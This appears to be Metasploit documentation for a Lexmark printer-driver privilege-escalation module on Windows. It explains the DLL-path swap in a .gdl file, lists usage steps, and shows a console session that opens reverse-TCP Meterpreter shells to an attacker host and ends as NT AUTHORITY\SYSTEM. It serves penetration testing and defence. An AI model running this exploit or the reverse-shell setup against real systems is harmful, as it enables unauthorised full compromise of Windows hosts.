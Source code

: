 ## Vulnerable Application

Various Lexmark Universal Printer drivers as listed at [advisory TE953](http://support.lexmark.com/index?page=content&id=TE953)
allow low-privileged authenicated users to elevate their privileges to `SYSTEM` on affected Windows systems by modifying
the XML file at `C:\\ProgramData\\<driver name>\\Universal Color Laser.gdl` to replace the DLL path
to `LMUD1OUE.DLL` with a malicious DLL path.

When `C:\\Windows\\System32\\Printing_Admin_Scripts\\en-US\\prnmngr.vbs` is then used to add the printer
to the affected system, `PrintIsolationHost.exe`, a Windows process running as `NT AUTHORITY\SYSTEM`,
will inspect the ``C:\\ProgramData\\Lexmark Universal v2\\Universal Color Laser.gdl` file and will load the
malicious DLL from the path specified in the file, which will result in the malicious DLL executing as `NT AUTHORITY\SYSTEM`.

Once this module is finished, it will use the `prnmngr.vbs` script to remove the printer it added.

## Verification Steps

1. Install a vulnerable Lexmark driver
2. Start `msfconsole`
3. Get a session with basic privileges
4. Do: `use exploit/windows/local/lexmark_driver_privesc`
5. Do: `set SESSION <sess_no>`
6. Do: `run`
7. You should get a shell running as `SYSTEM`.

## Options

### DRIVERNAME

Set `DRIVERNAME` to the specific Lexmark driver to attempt to exploit. The module will verify the driver is present. Example:

```
set DRIVERNAME Lexmark Printer Software G2 XL
```

## Scenarios

### Lexmark Printer Software G2 XL v2.2.0.0

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.0.0.9
lhost => 10.0.0.9
msf6 exploit(multi/handler) > set lport 1270
lport => 1270
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.9:1270 
[*] Sending stage (200262 bytes) to 10.0.0.8
[*] Meterpreter session 1 opened (10.0.0.9:1270 -> 10.0.0.8:51814) at 2021-08-10 18:07:31 -0400

meterpreter > getuid
Server username: MOURNLAND\lowlevel
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/lexmark_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/lexmark_driver_privesc) > set session 1
session => 1
msf6 exploit(windows/local/lexmark_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/lexmark_driver_privesc) > set lhost 10.0.0.9
lhost => 10.0.0.9
msf6 exploit(windows/local/lexmark_driver_privesc) > set lport 1271
lport => 1271
msf6 exploit(windows/local/lexmark_driver_privesc) > check

[*] Lexmark driver published at oem3.inf
[*] Lexmark driver published at oem12.inf
[*] Found 2 possible options:
[*] 	Lexmark Printer Software G2
[*] 	Lexmark Printer Software G2 XL
[*] No user provided DRIVERNAME. Defaulting to "Lexmark Printer Software G2"
[*] The service is running, but could not be validated. A potentially vulnerable Lexmark print driver is available.
msf6 exploit(windows/local/lexmark_driver_privesc) > set DRIVERNAME Lexmark Printer Software G2 XL
DRIVERNAME => Lexmark Printer Software G2 XL
msf6 exploit(windows/local/lexmark_driver_privesc) > run

[*] Started reverse TCP handler on 10.0.0.9:1271 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Lexmark driver published at oem3.inf
[*] Lexmark driver published at oem12.inf
[*] Found 2 possible options:
[*] 	Lexmark Printer Software G2
[*] 	Lexmark Printer Software G2 XL
[*] The user selected driver was in the driver store
[!] The service is running, but could not be validated. A potentially vulnerable Lexmark print driver is available.
[*] Adding printer dgvUKSrm...
[*] Sending stage (200262 bytes) to 10.0.0.8
[*] Sending stage (200262 bytes) to 10.0.0.8
[*] Meterpreter session 2 opened (10.0.0.9:1271 -> 10.0.0.8:51830) at 2021-08-10 18:09:29 -0400
[*] Deleting printer dgvUKSrm
[*] Meterpreter session 3 opened (10.0.0.9:1271 -> 10.0.0.8:51831) at 2021-08-10 18:09:31 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
